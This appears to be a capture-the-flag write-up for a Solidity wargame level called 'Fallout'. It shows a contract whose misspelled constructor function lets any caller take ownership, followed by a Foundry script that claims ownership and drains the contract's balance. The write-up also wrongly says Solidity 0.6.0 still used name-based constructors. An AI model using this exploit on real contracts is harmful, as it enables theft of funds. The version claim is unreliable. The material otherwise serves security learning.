 ```javascript
    owner = msg.sender;
    allocations[owner] = msg.value;
  }

  modifier onlyOwner {
	        require(
	            msg.sender == owner,
	            "caller is not the owner"
	        );
	        _;
	    }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }

  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this).balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```

- Goal : 

1. Claim the ownership of the contract

- Solution

1. In solidity `0.6.0` the constructor of the contract is the name of the contract, later it was replaced with `constructor` keyword.
2. Here in this contract the constructor sets up the `owner`. 
3. But the function `Fal1out()` is not actually a constructor, because its not same as the contract name.
4. So, we can call this function and claim the ownership.

`FalloutSolve.s.sol`

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "forge-std/Script.sol";
import "forge-std/console.sol";
import {Fallout} from "../src/Fallout.sol";

contract FalloutSolve is Script{
    Fallout public level2 = Fallout(0xf66ffe7e1e2663E19fec83F39256cc3Af3513000);

    function run() external{
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        console.log("Original Owner : ", level2.owner());
        level2.Fal1out();
        console.log("New Owner : ", level2.owner());
        level2.collectAllocations();

        vm.stopBroadcast();
    }
```
